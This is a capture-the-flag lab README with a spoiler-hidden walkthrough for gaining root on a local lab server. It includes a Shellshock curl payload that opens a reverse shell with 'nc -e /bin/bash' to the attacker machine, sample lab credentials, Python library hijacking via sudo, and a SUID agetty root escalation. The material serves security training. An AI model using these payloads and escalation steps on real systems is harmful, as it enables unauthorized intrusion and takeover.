

# Unpleasant
You are in a position where your friends asked you to help them. As a starting
company they want you to "hack" them, so they can fix their problems right in the
beginning. Would you mind showing off your skills? They bring you a machine with
Kali installed and place you on the same network, where their server is.

## Topology


Router's IP - 10.32.51.1

## How to play
You will enter Kali Linux environment on attacker machine and
your job is to get `root` account on the server.

There will be 2 flags on this server, `user.txt` to know that you are
inside the server, and `root.txt` to see that you got `root`.

In a walkthrough, there are 2 levels. The first level represents the description
about each stage - named levels. And the second level can be shown using
the spoiler in the walkthrough. You can use the first level, if you just want
to show tasks. And if you get stuck, use spoilers to show hints.

## Disclaimer
This game is only for educational purposes. Unauthorized use of the tools
that are incorporated into the game is illegal. The story is fictitious.

# Walkthrough
If you want to play it without walkthrough, just do not click on spoiler. Otherwise, you can use it if you are stuck somewhere.

<details>
<summary>Click for help</summary>

## Level 1 - Target Discovery
You have now given a VM with Kali Linux 2020.3 preinstalled here. The credentials for this Kali Linux are `kali`:`kali`. You might use these credentials twice
(do not ask me why; I ask myself this question either).

When you are performing an attack, you obviously need to know who you are going
to attack. But we did not provide you with any information about the target.

We can only assure you that the target machine is on your local network.

Now, your job here is to find out what is your network. How can you do that?
> use `ip addr` or `ifconfig`

This level should be pretty easy. You need to find the IP address of your target
machine. Can you do it without a spoiler?

><details>
>  <summary>Spoiler!</summary>
>
>  You can use
>  ```cli
>fping -ag <network> 2>/dev/null
>  ```
>
>  alternatively
>
>  ```cli
>netdiscover -r <network>
>  ```
>
>  or
>
>  ```cli
>nmap -sn <network>
>  ```
>
>  I would suggest using `fping`. It was the fastest that spot the target.
>
>  Attacker's IP (our IP) is 10.32.51.12 and the target's IP is 10.32.51.173.
>
>  Read `man` pages! <br>
>  
></details>

Note: give it some time!

## Level 2 - Target Scanning
After you examine our target, you need to find out what services they are using.
Do they allow the FTP service? Or HTTP? What ports are opened on this target?
For this kind of challenge, we use `nmap`.

> sometimes, higher ports are opened; do not forget to scan all ports,
every time!

You should experiment with the `nmap` tool, as it has some important options to use.
For instance, the `-sS` option will tell `nmap` to make SYN scan, `-sV` to get
the service version, `-O` to guess the OS, etc.

><details>
>  <summary>Spoiler!</summary>
>
>  In general, I would suggest using
>
>  ```cli
>sudo nmap -sS -T4 -A -p- <TARGET_IP> -oA all_ports
>  ```
>
>  It will scan all ports in aggressive mode, perform SYN scan, and save the
>  output in the all_ports file in greppable format (.gnmap), standard
>  output (.nmap), and XML format (.xml).
>
>  On the other hand, while this will scan for all ports,
>  you should be checking for some common ports that *might* be open, e.g. port 80,
>  443,...
>
>  Once again, read `man` page for this tool and find out what these options do!
>
>  Open ports: 22/ssh, 80/http <br>
>  
></details>

## Level 3 - Enumerate your target

We saw earlier our opened ports, probably the most iconic duo. What can you do
with this information? How can this be used? If you know, you know. If not,
check the spoiler.

><details>
>  <summary>Spoiler!</summary>
>
>  When enumerating HTTP/HTTPS, your first step should be checking the
>  `robots.txt` file. It usually contains directories that should not be
>  accessible, and it is a good idea to check if they **really are** inaccessible.
>
>  Meanwhile, in the background, you can create a new bash session and use the
>  `nikto` tool to determine if there are any vulnerabilities. Nikto is a web
>  scanner tool that tries to scan for possible vulnerabilities. Possible usage:
>
>  ```cli
>nikto -h http://<TARGET_IP>
>  ```
>
>  where `-h` is the target IP. Find out more about this tool using `--help` option!
>
>  As our next step should be directory listing. You can choose which
>  tools to use, such as `dirbuster`, `dirb`, `gobuster`, `wfuzz`, `ffuf`, etc.
>  You use wordlist such as `common.txt` or `long.txt` in the
>  `/usr/share/wordlists/dirb/` directory. Example:
>
>  ```cli
>ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<TARGET_IP>/FUZZ -t 50
>  ```
>
>  Remember to **check `man` pages!**
>
>  If you check the details of the `nikto` output, it has detected that our target
>  might be vulnerable to the Shellshock vulnerability:
>
> `+ OSVDB-112004: /cgi-bin/printenv: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).`
>
>  You can find more about this vulnerability at these links:
>  https://nvd.nist.gov/vuln/detail/CVE-2014-6271
>  https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf
>
>  TL;DR:
>    When an HTTP request is sent to the server on a specific link,
>    a vulnerable bash version processes trailing strings after function
>    definitions in the values of environment variables.
>
>  So, with this knowledge, you can put bash code inside the HTTP request
>  header, and it will process it. Example:
>
>  ```cli
>curl -H "X-Frame-Options: () { :;}; echo 'hello'" <link>
>  ```
>
>  Although we did not see the response, we can try to create
>  a reverse shell between us and the server with this knowledge.
>
>  The term **reverse shell** means that the actual target will try to connect
>  to **our** machine on a specific port. We need the IP address (of our machine)
>  and open port. Why can we not just connect to the opened port on the target
>  machine?
>
>  We can, but reverse shells are much more used, because their
>  detection is less possible than using **bind shell** (connecting to
>  the opened port on the target machine).
>
>  We have 2 options for this to exploit: craft our payload, which
>  we can easily do using the `curl` command, or use the `metasploit` module
>  `exploit/multi/http/apache_mod_cgi_bash_env_exec` that would do the job.
>
>  I have used the `curl` way, because I find Metasploit too
>  easy for beginners to use. The more experienced you are in exploiting without
>  Metasploit, the better you can perform, and that is my opinion.
>
>  NOTE: when using `metasploit` module, do not forget to set all needed variables
>
>
>  First, we need to open port on our attacker machine. We can do this by using
>  `nc` command. Open the new terminal windows (shortcut CTRL + SHIFT + T) and
>  write down this line:
>
>```cli
>nc -lvnp 4444
>```
>
>  `-l` - listen; `-v` - verbose output; `-n` - don't resolve name, `-p` - specify
> port
>
>  Then, we can send our code to connect to our machine. We need to specify
>  options `-e` to execute `/bin/bash` after connecting to our attacker's machine
>  and the opened port. In this case, I have chosen this payload:
>
>```cli
> curl -H "User-Agent: () { :;}; /bin/nc -e /bin/bash <KALI_IP> <KALI_PORT>" http://<TARGET_IP>/cgi-bin/printenv
>```
>  <br>
>  
></details>

### Upgrade our shell - get used to it!
After using the `nc` command,
the shell we created is very unstable and uncomfortable. We can't scroll among
commands in the shell, no tab-completing, no job controlling,
no error displaying, etc. We can try to upgrade our shell.

When upgrading the shell, there are a few methods used.
My most used method is using `python`. It is easy, simple, and fast to write.
`which python` will find out if python is installed. Sometimes, we need to
check for `python3` and not `python`. Be aware of that!

We spawn a new shell using this command:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

This will create a new bash session, but we still need to do some configuration.
Stop this process using CTRL + Z, and after that we need these parameters
from your Kali machine:

`stty -a` - to get the number of rows and the number of columns currently used
(for better resolution and display settings in terminal)

`echo $TERM` - get our current terminal

After examining these values, we can now enter back into our shell with limited
functionalities. <br>
**WARNING:** if you are using other shell than zsh (`echo $SHELL`), you need
to enter these commands separately, i.e. on one line each!

`stty raw -echo; fg` - go back to our shell

When we are back, press enter, and then we need to enter values that we noted.
```
export TERM=xterm-256color
```
This is the value from the `echo $TERM` output;
```
export SHELL=/bin/bash
```
since we're using bash.
```
stty rows <ROWS> columns <COLUMNS>
```
ROWS - the number for rows, same goes for COLUMNS;

"I'm in!"

We can now look over here, using tab-completion, scrolling, and many other things,
which are available, since we upgraded the shell.

More on upgrading this shell: <br>
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/ <br>
https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/


## Level 4 - Don't try harder - enumerate harder
Your job here is to find something that you can use for privilege escalation.

One of the first things you should check is whether `sudo -l` is enabled. This
command will check if our user has anything allowed to run without a `sudo`
password. Unfortunately, this is not the case, and we need to look for something
else.

The next step could be checking the `/etc/crontab` file. This file contains
commands that are planned to execute in an exact period. Once again, we did not
find anything interesting. :( What now?

What is the content of the `user.txt` flag?

><details>
>  <summary>Spoiler!</summary>
>  
>  Do you still remember, that we exploited the vulnerability using the website?
>  Check for files in the web directory! Credentials, credentials, credentials!
>  Although it looks like a default web application that just "spawns," it's good
>  to enumerate it; you would be surprised what you could find there (e.g. MySQL
>  credentials, or something else).
>  
>  We find the file `credentials.txt` in the `/var/www/html` directory, that
>  gives us the credentials `michael:WindOfChange`
>
>  You can log in with these credentials using the `ssh` command.
>```cli
>ssh michael@<TARGET_IP>
>```
>  write the password `WindOfChange`
>  and we're now michael!
>
>
>
></details>


## Level 5 - Straight to the top; unless...?
Cool, now that you are the "normal" user, what does it take you to become a more
privileged user? You need to use the same techniques used previously, search for
the same things, but now you can do some more things... Can you do it without
spoiler? :)

><details>
>  <summary>Spoiler!</summary>
>
>  From the `sudo -l` command, we find out that we can run the command
>  `/usr/bin/python3 /home/michael/try_it.py` as user john.
>  
>  ### Python Library Hijacking
>  In our home directory, we have a file called try_it.py. It is importing the
>  library "random" and calling it the function from it. This program will print
>  the text that is hardcoded. Let's take a closer look.
>
>  In our program we have "import random". The way that Python import
>  files/libraries is that it first lists the directory where the file is located,
>  and then searches for the script in PYTHONPATH.
>
>  More on this: <br>
>  https://docs.python.org/3/tutorial/modules.html#the-module-search-path
>
>  So, with that, we can try to create a new file called random.py and write
>  the line that we used to upgrade our shell! In the script, do not forget to add
>  a shebang (`#!/usr/bin/python3`) in the script and write down the line
>  `import pty;pty.spawn("/bin/bash")`.
>  We just need to ensure that we added the right lines to spawn a shell.
>
>  The content of the random.py file in the same directory, where we have try_it.py:
>```py
>#!/usr/bin/python3
>import pty
>pty.spawn("/bin/bash")
>```
>  
>  After that, we need to figure out, how to execute the command as another user.
>  Since `runuser` or `su` didn't work out, we finally got the right command!
>```cli
>sudo -u john /usr/bin/python3 /home/michael/try_it.py
>```
>  Now we're the user john! :)
>
></details>

## Level 6 - got root?
Let me introduce you to John, probably the most privileged user, but still
not root.

This level should be fairly easy, if you know what to look for.

What is the content of the `root.txt` flag?

><details>
>  <summary>Spoiler!</summary>
>
>  A little surprise in home directory :)
>  In john's home directory, we have a binary called agetty. This binary has an
>  SUID bit set. We can check, if this binary is not in the list of the binaries,
>  that can be used for privilege escalation. The list is on this website:
>  https://gtfobins.github.io/
>
>  The binary agetty is listed right as a second one. This website tells us,
>  if this binary file has an SUID set, it is possible to escalate our privileges
>  It also tells us the command to use for this privilege escalation,
>  so let's try it! We made a little change, so we spawn a bash session, and not
>  a simple shell session.
>```cli
>./agetty -o -p -l /bin/bash -a root tty
>```
>
>  Now, we got a new bash session. To check, if we are really on a root account,
>  use the `id` command.
>
>  Search for the root.txt file:
>```cli
>find / -type f -name "root.txt" -exec cat {} \; 2>/dev/null
>```
>
></details>

</details>
